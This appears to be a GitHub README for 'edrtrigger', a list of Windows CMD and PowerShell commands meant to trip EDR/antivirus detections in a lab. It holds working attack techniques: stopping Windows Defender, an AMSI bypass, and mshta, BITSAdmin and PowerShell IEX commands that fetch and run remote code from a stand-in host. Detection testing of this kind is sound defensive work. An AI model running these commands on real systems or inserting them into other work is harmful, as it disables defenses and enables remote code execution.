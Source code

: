 # edrtrigger

# EDR Trigger (Non-Malicious Testing)

> [!WARNING] ⚠️
>
> This set of commands is intended for **non-malicious testing** in a **controlled lab environment only**. These actions may trigger EDR/AV alerts or detections. Although all these are non-malicious and use non-routable TLDs (e.g., `.local`), they should only be executed in production environments if permitted by **compliance policies or explicit exceptions**. Proceed at your own risk.

## CMD

1. **Tasklist enumeration**  
```cmd
cmd.exe /c tasklist
```

2. **Disabling Windows Defender**  
```cmd
cmd.exe /c sc stop WinDefend
```

3. **Certutil Download**  
```cmd
cmd.exe /c certutil.exe -urlcache -split -f http://7-zip.org/a/7z2405-x64.exe 7zip_installer.exe
```

4. **Rundll32 with LOLBAS technique (JavaScript execution)**  
```cmd
cmd.exe /c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write('Hello');"
```

5. **Whoami piped to temp file (can indicate enumeration)**  
```cmd
cmd.exe /c whoami > %TEMP%\whoami.txt
```

6. **MSHTA launching a remote script**  
```cmd
cmd.exe /c mshta.exe http://edrtest.local/evil.hta
```

7. **BITSAdmin for downloading a payload**  
```cmd
cmd.exe /c bitsadmin /transfer myjob /download /priority high http://edrtest.local/file.exe C:\Users\Public\file.exe
```

## Powershell

1. **Encoded PowerShell base64**  
```powershell
powershell -EncodedCommand CgpoZWxsbyBlZHI=
```

2. **PowerShell Abuse**  
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://edrtest.local/ps_script.ps1')"
```

3. **AMSI Bypass**  
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

4. **Malicious Macro Trigger**  
```powershell
Shell("powershell -w hidden -nop -c iex(iwr http://edrtest.local/ps_script.ps1)")
```

5. **COM Abuse (Excel COM Object Execution)**  
```powershell
$xl = New-Object -ComObject Excel.Application; $xl.Visible = $false; $xl.Quit()
```
